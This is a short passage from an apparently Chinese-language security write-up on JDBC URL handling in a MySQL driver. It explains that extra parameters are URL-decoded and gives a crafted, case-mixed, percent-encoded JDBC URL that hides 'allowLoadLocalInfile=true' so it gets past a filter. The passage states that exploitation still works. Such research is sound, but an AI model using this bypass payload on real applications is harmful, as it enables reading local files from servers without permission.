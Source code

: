     此时 parsedProperties 属性为 null，从而调用 parseQuerySection 初始化额外参数，也就对额外参数进行了 url 解码  
    根据上面的分析，最终可以给出的特殊 jdbcurl
    
    ```plain
    %6adBc:mYsQl://127.0.0.1:3308/xxx?  %61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65  =  %74%72%75%65#
    ```
    
    依旧可以做到利用
    

[![](assets/1707954725-6ed9a5b704d353d01f6f8a4da67b9d80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202100509-7dc797f2-c16f-1.png)

